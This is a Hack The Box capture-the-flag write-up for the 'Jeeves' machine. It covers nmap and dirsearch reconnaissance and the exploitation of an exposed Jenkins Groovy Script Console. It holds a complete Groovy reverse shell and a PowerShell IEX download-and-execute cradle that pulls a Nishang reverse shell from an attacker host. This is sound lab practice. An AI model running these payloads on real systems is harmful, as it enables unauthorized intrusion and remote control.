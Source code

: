 ```yaml
---
title:  "Hack The Box / Jeeves"
date: 2020-01-18
tags: [Penetration Testing, Hacking, Hack The Box, Jeeves, OSCP, Offensive Security]
header: 
  image: "assets/images/jeeves/jeeves-rooted.jpg"
---
```


Welcome! So, before starting with couple ways of getting this box, I want to explain the goal of this and the following posts. After two attempts to pass my OSCP exam (which both attemps failed) I looked the need to practice and explain some of the learning obtained with different machines in Hack The Box, so I decided to make some challenging boxes before my third attempt to the OSCP exam. I chose this list from [NetSec Focus](https://www.netsecfocus.com/) in order to improve my penetration testing skills. From this list Jeeves is the first box, so let's get to it. 

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/jeeves/list.jpg" alt="oscp list">

## Information Gathering

### Nmap Scan
So, we start with a nmap scan to check what ports are open and what services are running in this machine. 

```
nmap -sC -sV -p- -oN scan.nmap 10.10.10.63
```
<img src="{{ site.url }}{{ site.baseurl }}/assets/images/jeeves/nmap-scan.png" alt="nmap scan">

Looks like we have some HTTP services running in port 80 and 50000. Also we can deduce that the machine is running Windows due to the IIS server. There is a good chance to scan the port 445 which is running a SMB service, but unfortunately the results are not helpful. 

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/jeeves/nmap-scripts.png" alt="smb scan">

### Directory Brute Force
Then, having HTTP service running in port 80 and 50000 and running [dirsearch](https://github.com/maurosoria/dirsearch) in both ports, we get some good results in port 50000.

Results from browser and dirsearch running in port 80. 
<img src="{{ site.url }}{{ site.baseurl }}/assets/images/jeeves/browser-80.png" alt="browser">

```
python3 dirsearch.py -u http://10.10.10.63 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e php -t 50
```
<img src="{{ site.url }}{{ site.baseurl }}/assets/images/jeeves/dir-80.png" alt="dirsearch">

Results rom browser and dirsearch running in port 50000.

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/jeeves/not-found.png" alt="browser">

```
python3 dirsearch.py -u http://10.10.10.63:50000/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e php -t 50
```
<img src="{{ site.url }}{{ site.baseurl }}/assets/images/jeeves/dir-50000.png" alt="dirsearch">

Bingo! We have something to look at __http://10.10.10.63/askjeeves/__

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/jeeves/jenkins.png" alt="browser">

So, after visitin this page and looking around things, in __"Manage Jenkins"__ there is something interesting called __"Script Console"__, and after googling around its exploitation we found something useful from [Hacking Articles](https://www.hackingarticles.in/exploiting-jenkins-groovy-script-console-in-multiple-ways/).

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/jeeves/jenkins-manage.png" alt="Manage Jenkins">

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/jeeves/script-console.png" alt="Script Console">

## Reverse Shell
Knowing that we can do some exploitation with the script console in Jenkins. There are couple methods to get a reverse shell where I'll share two. 

### Reverse Shell - Method #1
After googling around things such as "jenkins language scripting" or "jenkins reverse shell" there is information that says that the langauage used to execute scripts in the console is called "Groovy". So, from this language the reverse shell obtained came from ["frohoff"](https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76) on github. 

```
String host="localhost";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

Then, adding this code and replace "localhost" for our IP and cliking "Run" I got a reverse shell!

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/jeeves/reverse-shell1.png" alt="Reverse Shell #1">

and wollah!

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/jeeves/netcat-shell.png" alt="NetCat Shell #1">

### Reverse Shell - Method #2

It keeps the same concept from the Script Console and Groovy Scripting language with the difference and usage of powershell. This method came from [IppSec](https://www.youtube.com/watch?v=EKGBskG8APc) in his video resolving Jeeves, so let's get it. 

So, before attempting this method, the usage of the reverse shell from [Nishang](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) and having a simple http server from python is important.

In Nishang we can add ``` Invoke-PowerShellTcp -Reverse -IPAddress 10.10.10.63 -Port 4444 ``` in the __last line__ of code as is shown in the picture below. The reason why adding this line is because at the time to execute the script in powershell we want to invoke the reverse shell to our respective IP with the respective port. 

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/jeeves/nishang-modify.png" alt="nishang-modify">

After adding that line of code, we can start our python Simple HTTP Server in our location where we have our nishang script. 

```
python -m SimpleHTTPServer 80
```

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/jeeves/python-server.png" alt="python-server">

After starting the server we should write and execute the following lines in the Script Console where our order will be to download the nishang script from our local host and executed in the remote machine invoking a reverse shell to our local host. 

Groovy code for the Script Console:
```
cmd = """ powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.36/Invoke-PowerShellTcp.ps1') """
println cmd.execute().txt
```

Powershell script to download the nishang script (might be useful for future machinesツ) :
```
(New-Object Net.WebClient).downloadString('http://10.10.14.36/Invoke-PowerShellTcp.ps1')
```

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/jeeves/power-console.png" alt="power-console"

So, wollah!

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/jeeves/shell-gif.gif" alt="shell-gif"


